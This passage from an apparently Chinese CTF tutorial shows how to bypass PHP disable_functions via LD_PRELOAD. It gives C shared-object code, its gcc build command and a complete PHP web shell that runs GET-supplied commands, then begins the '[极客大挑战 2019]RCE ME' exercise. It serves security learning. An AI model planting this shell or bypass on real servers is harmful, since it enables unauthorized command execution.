 ```c
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }

    // executive command
    system(cmdline);
}
```

接着用以下语句编译C文件为共享对象文件：

```shell
gcc -shared -fPIC bypass_disablefunc.c -o bypass_disablefunc.so
```

bypass_disablefunc.php，代码和test.php一致：

```php
<?php
    echo "<p> <b>example</b>: http://127.0.0.1/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so </p>";
    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";
    putenv("EVIL_CMDLINE=" . $evil_cmdline);
    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);
    mail("", "", "", "");
    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 
    unlink($out_path);
?>
```

访问bypass_disablefunc.php，输入参数设置LD_PRELOAD环境变量和要执行的命令的值，页面直接返回命令执行结果：

![image-20231022195820199](assets/image-20231022195820199.png)

## 例题练习：[极客大挑战 2019]RCE ME

拿下shell，用蚁剑连接，打开虚拟终端，发现无法执行命令，查看phpinfo得知设置了disable_functions

![image-20231022200242873](assets/image-20231022200242873.png)
